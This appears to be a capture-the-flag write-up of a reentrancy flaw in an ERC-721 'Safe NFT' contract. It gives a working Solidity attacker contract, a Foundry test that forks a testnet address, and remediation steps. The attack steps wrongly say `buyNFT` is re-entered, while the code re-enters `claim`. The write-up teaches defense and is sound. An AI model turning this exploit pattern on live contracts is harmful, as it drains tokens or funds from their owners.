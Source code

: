 ## Safe NFT

### Vulnerability Analysis
Given contract is an ERC-721 token. The contract utilizes the `_safeMint` function to provide its users with tokens.

One aspect of `_safeMint` is that it verifies correct token transfer via calling `onERC721Received` on the token receiver address.
Given that it involves external call to an unknown entity, additional care must be taken.

Looking at the `claim` function we can see that the logic here breaks the "Checks-Effects-Interactions" pattern, which
leads to this function being vulnerable to the Reentrancy attack.

### Attack Steps
1. To exploit the vulnerability we will use dedicated contract
2. Setup attacker contract with some ETH
3. Call `buyNFT` from attacker contract
4. Call `claim`from attacker contract
5. When `onERC721Received` is called by the target, issue another call to `buyNFT`(re-enter the function)
6. After claiming two NFTs, the initial call to `claim` will be completed

### POC

attacker contract - `SafeNFTAttack.sol`
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "./SafeNFT.sol";

contract SafeNFTAttack {
  safeNFT target;

  constructor(address _targetAddress) {
    target = safeNFT(_targetAddress);
  }

  function attack() external {
    target.buyNFT{ value: 0.01 ether }();
    target.claim();
  }

  function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata data
  ) external returns (bytes4) {
    if (target.balanceOf(address(this)) < 2) {
      target.claim();
    }

    return this.onERC721Received.selector;
  }
}
```

forge(foundry) test:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "./SafeNFT.sol";
import "./SafeNFTAttack.sol";

// For this test we will use a forked environment
contract SafeNFTPOC is Test {
  safeNFT target = safeNFT(0xf0337Cde99638F8087c670c80a57d470134C3AAE);
  SafeNFTAttack attacker = new SafeNFTAttack(0xf0337Cde99638F8087c670c80a57d470134C3AAE);

  function setUp() external {
    vm.deal(address(attacker), 0.01 ether);
  }

  function testExploit() external {
    vm.startPrank(address(attacker));

    attacker.attack();

    require(target.balanceOf(address(attacker)) == 2, "POC: invalid attacker balance");
  }
}
```

Command: `forge test --mc SafeNFTPOC -f $GOERLI_RPC_URL`

### Remediation
1. Use reentrancy guards (e.g. from OpenZeppelin)
2. Stick with the "Check-Effects-Interactions" pattern. Update `canClaim` mapping before issuing the token
